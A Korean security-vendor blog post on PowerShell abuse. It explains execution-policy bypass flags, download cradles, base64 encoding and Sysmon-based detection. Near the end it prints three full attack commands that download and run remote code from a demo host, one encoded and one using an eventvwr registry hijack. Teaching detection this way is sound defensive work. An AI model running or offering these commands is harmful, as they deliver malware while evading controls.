 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: 
title: "PowerShell을 이용한 공격"
---
```


![2020-05-12](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

시스템 관리 및 자동화 등을 목적으로 설계된 명령줄 셸 및 스트립팅 언어입니다.<br>
Windows Vista 이후 기본 탑재되어 공격자의 도구로 많이 사용되고 있습니다.

### 1. 실행 정책 (Execution Policy)
기본적으로 Microsoft는 PowerShell 스크립트 실행을 제한합니다.<br>
그러나 공격자는 이를 쉽게 우회할 수 있습니다.<br>
> **우회 Flags**<br>
> -ExecutionPolicy/-EP Bypass<br>
> -ExecutionPolicy/-EP Unrestricted<br>
> -noprofile or -nop<br>
> *Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정한 Profile도 무시할 수 있습니다.

### 2. 다운로드
PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행합니다.
> 악의적인 PowerShell 스크립트 명령줄에서 자주 사용되는 명령입니다.<br>
> New-Object: .NET Framework의 인스턴스를 만듭니다.<br>
> System.Net.Webclient: 원격 리소스와의 데이터 송수신에 사용됩니다.<br>
> DownloadString: 원격지에서 IEX가 실행할 메모리 버퍼로 내용을 다운로드합니다<br>
> DownloadFile: 원격지에서 로컬 파일로 컨텐츠를 다운로드합니다.<br>
> IEX/Invoke-Expression: 로컬 컴퓨터에서 명령을 실행합니다.<br>
> ICM/Invoke-Command: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

### 3. 인코딩
- 인코딩은 PowerShell Commnad를 사용자 및 특정 로그에서 숨길 수 있는 한 가지 방법입니다.<br>
- Base64 인코딩을 사용한 경우 CommandLine의 길이가 길어집니다.<br>
- 인코딩 또한 우회되더라도, 장문의 명령어를 통해 불러온 PowerShell이라면 의심해볼 필요가 있습니다. ( > 500 is odd)

### 4. DLL
- 악의적인 행동을 탐지하려면, 의심스러운 calls의 조합을 찾아야 합니다.<br>
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 이러한 Dll이 호출되고 있는지 모니터링합니다.<br>
*sysmon id 7 (ImageLoaded)을 통해 확인 가능합니다.<br>
System.Management.Automation.Dll<br>
System.Management.Automation.ni.Dll<br>
System.Reflection.Dll

### 5. PLURA에서 PowerShell 악성 행위 탐지
*Sysmon 설치 필수
설치 방법: https://docs.plura.io/ko/agents/edr/windows/sysmon<br><br>
![ps-0-1](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

**악성 파일 실행**<br>
PowerShell 우회 및 공격자 서버로부터 파일 다운로드 행위 발생<br>
![ps-2-1](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**필터 탐지 > 호스트보안**<br>
PLURA에서는 이런 악의적인 공격을 Sysmon을 활용하여 필터 탐지하고 있습니다.

> **공격 명령어**<br>
> ```bash
> powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')<br>
>
> cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==<br>
>
> cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe

악성 PowerShell 스크립트는 주로 email 첨부 파일의 다운로더로 사용되거나 침입 후 원격 컴퓨터에서 코드를 실행할 수 있습니다.<br>
PowerShell 위협에 대처하려면 보다 정교한 탐지 방법과 지속적인 모니터링 등의 노력이 필요합니다.


## 참조
- https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf
- https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en
- https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651

## 관련 기사, 보안뉴스
- https://bit.ly/2V99SLF
